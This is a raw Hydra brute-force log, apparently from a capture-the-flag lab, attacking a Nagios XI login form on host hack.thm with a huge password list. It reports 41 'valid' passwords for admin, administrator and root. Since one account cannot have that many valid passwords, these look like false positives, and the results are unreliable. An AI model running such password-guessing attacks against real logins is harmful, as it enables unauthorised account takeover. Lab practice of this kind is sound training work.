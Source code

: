 Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-10 15:42:59
[DATA] max 64 tasks per 1 server, overall 64 tasks, 43033197 login tries (l:3/p:14344399), ~672394 tries per task
[DATA] attacking http-post-form://hack.thm:80/nagiosxi/login.php:username=^USER^&password=^PASS^:login
[80][http-post-form] host: hack.thm   login: admin   password: pepper
[80][http-post-form] host: hack.thm   login: admin   password: heather
[80][http-post-form] host: hack.thm   login: admin   password: honey
[80][http-post-form] host: hack.thm   login: admin   password: 222222
[80][http-post-form] host: hack.thm   login: admin   password: beauty
[80][http-post-form] host: hack.thm   login: admin   password: cristina
[80][http-post-form] host: hack.thm   login: admin   password: peanut
[80][http-post-form] host: hack.thm   login: admin   password: rebelde
[80][http-post-form] host: hack.thm   login: admin   password: 00000
[80][http-post-form] host: hack.thm   login: admin   password: myspace
[80][http-post-form] host: hack.thm   login: admin   password: madison
[80][http-post-form] host: hack.thm   login: admin   password: remember
[80][http-post-form] host: hack.thm   login: admin   password: ilovejesus
[80][http-post-form] host: hack.thm   login: admin   password: lester
[80][http-post-form] host: hack.thm   login: admin   password: xxxxxx
[80][http-post-form] host: hack.thm   login: admin   password: alyssa
[80][http-post-form] host: hack.thm   login: admin   password: janice
[80][http-post-form] host: hack.thm   login: administrator   password: friends
[80][http-post-form] host: hack.thm   login: administrator   password: anthony
[80][http-post-form] host: hack.thm   login: administrator   password: shadow
[80][http-post-form] host: hack.thm   login: administrator   password: blink182
[STATUS] 28689119.00 tries/min, 28689119 tries in 00:01h, 14344078 to do in 00:01h, 64 active
[80][http-post-form] host: hack.thm   login: administrator   password: smiley
[80][http-post-form] host: hack.thm   login: administrator   password: sweetheart
[80][http-post-form] host: hack.thm   login: administrator   password: chivas
[80][http-post-form] host: hack.thm   login: administrator   password: justine
[80][http-post-form] host: hack.thm   login: administrator   password: 12345
[80][http-post-form] host: hack.thm   login: administrator   password: sharon
[80][http-post-form] host: hack.thm   login: administrator   password: 123456
[80][http-post-form] host: hack.thm   login: administrator   password: rabbit
[80][http-post-form] host: hack.thm   login: administrator   password: savannah
[80][http-post-form] host: hack.thm   login: administrator   password: manuel
[80][http-post-form] host: hack.thm   login: root   password: badboy
[80][http-post-form] host: hack.thm   login: administrator   password: miranda
[80][http-post-form] host: hack.thm   login: administrator   password: allison
[80][http-post-form] host: hack.thm   login: administrator   password: emily
[80][http-post-form] host: hack.thm   login: administrator   password: sporting
[80][http-post-form] host: hack.thm   login: administrator   password: hearts
[80][http-post-form] host: hack.thm   login: administrator   password: dallas
[80][http-post-form] host: hack.thm   login: administrator   password: 102030
[80][http-post-form] host: hack.thm   login: administrator   password: 212121
[80][http-post-form] host: hack.thm   login: root   password: ashley1
1 of 1 target successfully completed, 41 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-10 15:44:36
</pre>
